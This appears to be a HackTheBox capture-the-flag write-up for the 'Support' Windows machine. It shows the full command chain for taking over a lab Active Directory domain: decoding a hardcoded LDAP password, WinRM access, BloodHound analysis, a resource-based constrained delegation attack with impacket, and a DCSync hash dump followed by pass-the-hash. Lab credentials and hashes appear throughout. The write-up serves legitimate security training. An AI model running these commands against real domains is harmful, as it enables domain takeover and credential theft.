# HackTheBox — Support (Windows / Active Directory)

**Difficulty:** Easy · **OS:** Windows Server 2022 · **Domain:** `support.htb` · **Author:** Kelvin Bigson

A full compromise of the *Support* Active Directory environment, chaining an anonymous SMB
share → .NET reverse engineering → LDAP credential exposure → WinRM foothold → BloodHound-driven
ACL abuse (GenericAll on the Domain Controller computer object) → Resource-Based Constrained
Delegation → DCSync → domain compromise.

---

## Table of Contents

- [Recon](#recon)
- [Enumeration](#enumeration)
- [Foothold — Decompiling `UserInfo.exe`](#foothold--decompiling-userinfoexe)
- [Shell as `ldap` → Credentials for `support`](#shell-as-ldap--credentials-for-support)
- [Initial Access via WinRM](#initial-access-via-winrm)
- [BloodHound — Mapping the Attack Path](#bloodhound--mapping-the-attack-path)
- [Privilege Escalation](#privilege-escalation)
  - [Attempt 1: Shadow Credentials (blocked — no AD CS)](#attempt-1-shadow-credentials-blocked--no-ad-cs)
  - [Attempt 2: Resource-Based Constrained Delegation (success)](#attempt-2-resource-based-constrained-delegation-success)
- [DCSync and Domain Compromise](#dcsync-and-domain-compromise)
- [Flags](#flags)
- [Key Takeaways](#key-takeaways)
- [Tools Used](#tools-used)

---

## Recon

```
rustscan -a 10.129.230.181 --ulimit 50000
nmap -sC -sV -v -n 10.129.230.181
```

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
Service Info: Host: DC; OS: Windows
```

Straight away this is an Active Directory domain controller: `support.htb`, host `DC`,
Kerberos + LDAP + WinRM all exposed. Added a hosts entry:

```
echo "10.129.230.181 dc.support.htb support.htb DC" | sudo tee -a /etc/hosts
```

---

## Enumeration

**Null / anonymous SMB session:**

```
netexec smb 10.129.230.181 -u '' -p ''            # Null Auth: True
smbclient -N -L //10.129.230.181/
```

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
support-tools   Disk      support staff tools     <-- non-default share
SYSVOL          Disk      Logon server share
```

A custom `support-tools` share stood out. Anonymous LDAP binds and null `rpcclient`
enumeration were blocked (`STATUS_ACCESS_DENIED`), so the share became the priority.

```
smbclient -N //10.129.230.181/support-tools
> prompt off
> recurse on
> mget *
```

Almost every file in the share was a public NuGet dependency
(`CommandLineParser.dll`, `Microsoft.Extensions.*`, `System.*`). One file was **not**
publicly available: **`UserInfo.exe`** — a small custom .NET tool built specifically for
this environment.

---

## Foothold — Decompiling `UserInfo.exe`

```
ilspycmd -o ./decompiled UserInfo.exe
```

The decompiled source revealed an LDAP query tool that authenticates to the domain using a
hardcoded, "encrypted" service account password:

```csharp
internal class Protected
{
    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
    private static byte[] key = Encoding.ASCII.GetBytes("armando");

    public static string getPassword()
    {
        byte[] array = Convert.FromBase64String(enc_password);
        for (int i = 0; i < array.Length; i++)
            array[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDF);
        return Encoding.Default.GetString(array);
    }
}
...
entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
```

A simple base64-decode + XOR-with-static-key routine. Replicated in Python:

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

data = base64.b64decode(enc_password)
out = bytes((b ^ key[i % len(key)]) ^ 0xDF for i, b in enumerate(data))
print(out.decode())
```

```
$ python3 decode.py
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

That's valid domain credentials for `support\ldap`:

```
netexec smb 10.129.230.181 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
# [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```



---

## Shell as `ldap` → Credentials for `support`

With authenticated LDAP access, groups and users were enumerated. Nothing interesting sat in
group `info` fields, but the **`support`** user account (member of `Shared Support Accounts`)
had a populated `info` attribute — not a field AD populates by default, so it stood out
immediately:

```
ldapsearch -x -H ldap://10.129.230.181 -D 'ldap@support.htb' \
  -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" \
  "(sAMAccountName=support)" info
```

```
dn: CN=support,CN=Users,DC=support,DC=htb
info: Ironside47pleasure40Watchful
```

Plaintext, no decoding needed this time.

---

## Initial Access via WinRM

```
netexec smb   10.129.230.181 -u support -p 'Ironside47pleasure40Watchful'
netexec winrm 10.129.230.181 -u support -p 'Ironside47pleasure40Watchful'   # (Pwn3d!)
evil-winrm    -i 10.129.230.181 -u support -p 'Ironside47pleasure40Watchful'
```

`support` is a member of **Remote Management Users**, which is why WinRM (port 5985)
accepted the connection directly.




```
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
```

---

## BloodHound — Mapping the Attack Path

Collected AD data as the `support` user to map out ACLs and group memberships:

```
bloodhound-python -u support -p 'Ironside47pleasure40Watchful' \
  -d support.htb -ns 10.129.230.181 -c All --zip
```

Stood up BloodHound Community Edition locally via Docker:

```
curl -L https://ghst.ly/getbhce -o docker-compose.yml
sudo apt install docker-compose-plugin -y
docker compose up -d
docker compose logs bloodhound | grep -i "password"   # grab the auto-generated admin password
```




After ingest, marked `support` as **Owned** and reviewed group memberships and, critically,
ran **Pathfinding** from `support` → `DC.SUPPORT.HTB`:






**The path:**

```
SUPPORT@SUPPORT.HTB --MemberOf--> SHARED SUPPORT ACCOUNTS --GenericAll--> DC.SUPPORT.HTB
```

`support` belongs to **Shared Support Accounts**, which holds **GenericAll** over the domain
controller's computer object — full control, and a direct road to Domain Admin.



---

## Privilege Escalation

GenericAll on a computer object supports several abuse primitives. Two were attempted.

### Attempt 1: Shadow Credentials (blocked — no AD CS)

Used **pywhisker** to write a certificate into `DC$`'s `msDS-KeyCredentialLink` attribute:

```
pywhisker -d support.htb -u support -p 'Ironside47pleasure40Watchful' \
  --target "DC$" --action add
```

```
[+] Saved PFX (#PKCS12) certificate & key at path: gMVM6ExE.pfx
[*] Must be used with password: mEebdo3646E3HPAlpzZa
```



The attack theoretically continues with a PKINIT-based TGT request (via PKINITtools'
`gettgtpkinit.py` or Certipy's `auth` command):

```
certipy auth -pfx gMVM6ExE.pfx -password 'mEebdo3646E3HPAlpzZa' \
  -dc-ip 10.129.230.181 -username 'DC$' -domain support.htb
```

```
[-] Got error while trying to request TGT: Kerberos SessionError:
    KDC_ERR_PADATA_TYPE_NOSUPP (KDC has no support for padata type)
```



This environment has no AD Certificate Services deployed, so the KDC cannot process a
certificate-based (PKINIT) pre-authentication request. The shadow credential was written
successfully, but it's unusable without an Enterprise CA to validate it against. GenericAll
still gives another, CA-independent option.

### Attempt 2: Resource-Based Constrained Delegation (success)

GenericAll over a computer object also grants write access to
`msDS-AllowedToActOnBehalfOfOtherIdentity`, enabling **RBCD**. Combined with the domain's
default `ms-DS-MachineAccountQuota` (10), any authenticated user can register a computer
account and delegate to it:

```
# 1. Create a machine account
impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'Password123!' \
  -dc-ip 10.129.230.181 support.htb/support:'Ironside47pleasure40Watchful'

# 2. Configure RBCD: let FAKE01$ delegate to DC$
impacket-rbcd -delegate-to 'DC$' -delegate-from 'FAKE01$' -dc-ip 10.129.230.181 \
  -action write support.htb/support:'Ironside47pleasure40Watchful'
```

```
[*] Successfully added machine account FAKE01$ with password Password123!.
[*] Delegation rights modified successfully!
[*] FAKE01$ can now impersonate users on DC$ via S4U2Proxy
```



```
# 3. Request a service ticket as Administrator via S4U2Self / S4U2Proxy
unset KRB5CCNAME
impacket-getST -spn 'cifs/dc.support.htb' -impersonate Administrator \
  -dc-ip 10.129.230.181 'support.htb/FAKE01$:Password123!'
```

```
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

---

## DCSync and Domain Compromise

With a valid Administrator-impersonating ticket cached, `KRB5CCNAME` tells any
Kerberos-aware Impacket tool where to find it:

```
export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
impacket-secretsdump -k -no-pass support.htb/administrator@dc.support.htb -just-dc
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6303be52e22950b5bcb764ff2b233302:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:a9ae5061be71fc59b8253eba1e132b78:::
...
```

Full domain NTDS dump via DCSync — every user's hash, including Administrator's. Pass the
hash for a full admin shell:

```
evil-winrm -i 10.129.230.181 -u Administrator -H bb06cbc02b39abeddd1335bc30b19e26
```

